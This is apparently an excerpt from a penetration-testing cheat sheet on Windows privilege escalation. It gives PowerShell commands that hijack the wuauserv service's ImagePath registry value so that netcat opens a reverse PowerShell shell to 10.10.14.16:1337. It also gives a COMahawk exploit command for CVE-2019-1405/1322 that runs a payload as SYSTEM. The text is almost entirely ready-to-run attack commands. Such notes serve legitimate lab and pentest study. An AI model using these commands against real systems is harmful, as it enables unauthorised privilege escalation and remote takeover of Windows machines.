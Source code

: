

### wuauserv

```
PS > Get-Acl HKLM:\SYSTEM\CurrentControlSet\services\* | format-list * | findstr /i "snovvcrash Users Path ChildName"
PS > Get-ItemProperty HKLM:\System\CurrentControlSet\services\wuauserv
PS > reg add "HKLM\System\CurrentControlSet\services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc.exe 10.10.14.16 1337 -e powershell" /f
PS > Start-Service wuauserv
...get reverse shell...
PS > Get-Service wuauserv
PS > Stop-Service wuauserv
```



### UPnP Device Host Service

**CVE-2019-1405, CVE-2019-1322 - Windows 10, version 1803 < 1809**

* [https://www.programmersought.com/article/35344126658/](https://www.programmersought.com/article/35344126658/)
* [https://github.com/apt69/COMahawk/releases](https://github.com/apt69/COMahawk/releases)

```
Cmd > .\COMahawk64.exe "C:\Temp\pwn.exe"
```
